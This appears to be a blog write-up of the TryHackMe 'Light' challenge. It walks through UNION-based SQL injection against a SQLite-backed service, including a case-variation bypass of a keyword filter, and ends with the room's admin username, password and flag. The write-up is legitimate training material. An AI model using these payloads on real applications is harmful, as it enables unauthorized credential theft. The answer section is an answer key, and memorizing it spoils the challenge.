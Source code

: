 ```yaml
---
title: "Light"
date: 2025-2-5 12:00:00 +0000
categories: [CTF, Tryhackme]
tags: [Writeup, Cybersecurity, Tryhackme]
pin: false
---
```


**Light**

![screenshot](/assets/img/Light/image.png)

Welcome to the Light database application!


I am working on a database application called Light! Would you like to try it out?

If so, the application is running on port 1337. You can connect to it using 

``` bash 
nc 10.10.76.236 1337
```

You can use the username smokey in order to get started.

Note: Please allow the service 2 - 3 minutes to fully start before connecting to it.

Alright tho, we got a hint here let's use it immediately :

![screenshot](/assets/img/Light/1.png)

So we have a username and a password rn, let's see what is the next phase!

I'm gonna scan it with `nmap`

![screenshot](/assets/img/Light/2.png)

alright we have two open ports right now which are `22` and the given one `1337` 

At this point, I assumed the process would follow a familiar pattern: extract data from port `1337`, connect via SSH, and escalate privileges. However, this machine

presented unexpected obstacles, straying from the conventional route I had anticipated.  

After too many trials, I eventually identified two columns through trial and error then we got a `username` and a `password`.

![screenshot](/assets/img/Light/3.png)

that gave us a password which is : `tF8tj2o94WE4LKC`

so right now we don't know what is this password for but,

 After further testing, I discovered a working SQL injection payload:

 ```bash
 smokey' UNION SELECT name FROM sqlite_master WHERE type='table
 ```

but we have a problem here with the input validation, it checks for `Union` and `SELECT`

so it's gonna be

```bash
' Union Select name FROM sqlite_master WHERE type='table
```

![screenshot](/assets/img/Light/4.png)

The output was the first table in the sqlite_master schema, which’s the admintable.

```bash 
' Union Select username FROM admintable WHERE username LIKE '%
```

![screenshot](/assets/img/Light/5.png)

Got the username of the `admin` by using `'%` which matches all the records in the table.

```bash
' Union Select password FROM admintable WHERE username = 'TryHackMeAdmin
```

![screenshot](/assets/img/Light/6.png)

so, we have the admin's password right now.

just wanna make sure how many records has been saved for the admintable.

```bash
 ' Union Select COUNT(username) FROM admintable WHERE '1
```

![screenshot](/assets/img/Light/7.png)

```bash 
' Union Select username FROM admintable WHERE username != 'TryHackMeAdmin
```
 
 ![screenshot](/assets/img/Light/8.png)

 so by using the previous command we've got the second username which is `flag`, then we will use another query to get the password for this username.

```bash 
' Union Select password FROM admintable WHERE username = 'flag
```

 ![screenshot](/assets/img/Light/9.png)

 `THM{SQLit3_InJ3cTion_is_SimplE_nO?}`


**What is the admin username?**

*TryHackMeAdmin*

**What is the password to the username mentioned in question 1?**

*mamZtAuMlrsEy5bp6q17*

**What is the flag?**

*THM{SQLit3_InJ3cTion_is_SimplE_nO?}*